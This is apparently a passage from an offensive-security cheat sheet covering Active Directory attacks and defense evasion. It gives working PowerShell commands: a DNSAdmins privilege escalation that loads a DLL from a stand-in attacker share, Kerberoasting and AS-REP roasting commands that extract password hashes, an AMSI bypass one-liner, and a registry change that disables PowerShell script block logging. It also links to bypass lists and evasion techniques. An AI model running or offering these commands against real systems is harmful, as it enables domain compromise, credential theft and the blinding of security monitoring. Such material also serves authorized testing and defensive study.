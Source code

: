 ### Active Directory Attacks
```powershell
# DNSAdmins Privilege Escalation
dnscmd.exe /config /serverlevelplugindll \\attacker\share\evil.dll
sc.exe stop dns
sc.exe start dns

# Kerberoasting
Get-DomainUser -SPN | Get-DomainSPNTicket -Format Hashcat

# ASREPRoasting
Get-DomainUser -PreauthNotRequired | Get-DomainSPNTicket -Format Hashcat
```

### Key AD Resources
- 🏰 [Abusing DNSAdmins Privilege](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html)
- 🏰 [SQL Server Forest Trust Attacks](http://www.labofapenetrationtester.com/2017/03/using-sql-server-for-attacking-forest-trust.html)
- 🏰 [Guide to Attacking Domain Trusts](https://posts.specterops.io/a-guide-to-attacking-domain-trusts-971e52cb2944)

---

## 🛡️ Defense Evasion

### AMSI & PowerShell Evasion
```powershell
# AMSI Bypass Examples
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# PowerShell Logging Evasion
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 0
```

### Application Whitelisting Bypasses
- 📋 [Ultimate AppLocker Bypass List](https://github.com/api0cradle/UltimateAppLockerByPassList)
- 📋 [Windows 7 UAC Whitelist](http://www.pretentiousname.com/misc/win7_uac_whitelist2.html)
- 📋 [LOLBAS Project](https://github.com/LOLBAS-Project/LOLBAS)

### Key Evasion Resources
- 🔒 [PSAmsi - Anti-Malware Interface Interaction](http://www.irongeek.com/i.php?page=videos/derbycon7/t104-psamsi-an-offensive-powershell-module-for-interacting-with-the-anti-malware-scan-interface-in-windows-10-ryan-cobb)
- 🔒 [Process Doppelganging](https://hshrzd.wordpress.com/2017/12/18/process-doppelganging-a-new-way-to-impersonate-a-process/)
- 🔒 [Hiding Registry Keys with PSReflect](https://posts.specterops.io/hiding-registry-keys-with-psreflect-b18ec5ac8353)

---